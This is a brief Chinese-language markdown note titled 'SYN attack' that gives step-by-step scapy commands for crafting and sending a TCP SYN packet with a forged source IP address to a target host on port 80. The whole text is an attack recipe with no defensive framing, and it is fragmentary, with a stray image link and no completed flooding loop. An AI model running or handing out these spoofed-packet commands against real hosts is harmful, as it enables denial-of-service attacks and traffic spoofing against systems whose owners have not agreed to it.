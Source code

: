 # syn攻击

1. 安装库

```

pip3 install scapy-python3

```

2. sudo scapy

3. pkt = IP(dst="192.168.0.100")

4. pkt = IP(src="202.121.0.12",dst="192.168.0.100")/TCP(dport=80,flags="S")
send(pkt)
、
